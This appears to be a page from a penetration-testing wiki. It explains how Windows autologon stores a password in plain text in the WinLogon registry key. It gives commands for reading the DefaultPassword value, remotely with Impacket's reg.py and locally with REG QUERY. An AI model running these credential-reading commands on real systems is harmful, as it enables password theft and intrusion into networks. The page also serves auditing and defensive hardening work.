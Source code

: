 # AutoLogon Registry

## Theory

By using this feature, other users can start your computer and use the account that you establish to automatically log on. The autologon feature is provided as a convenience. However, this feature may be a security risk. If you set a computer for autologon, anyone who can physically obtain access to the computer can gain access to all the computer's contents, including any networks it is connected to. Additionally, when autologon is turned on, the password is stored in the registry in plain text. The specific registry key that stores this value can be remotely read by the Authenticated Users group.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can be used to query registry remotely from a UNIX-like machine.

```bash
# Query all Auto logon subkeys and values
reg.py domain.local/username:password123@IP query -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" -s 

# Query Auto logon password
reg.py domain.local/username:password123@IP query -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" -v DefaultPassword
```
{% endtab %}

{% tab title="Windows" %}
We can use the REG.EXE Windows utility

```bash
# Query Auto logon password
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword

#Or force reg.exe to read the 64-bit registry location
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```
{% endtab %}
{% endtabs %}
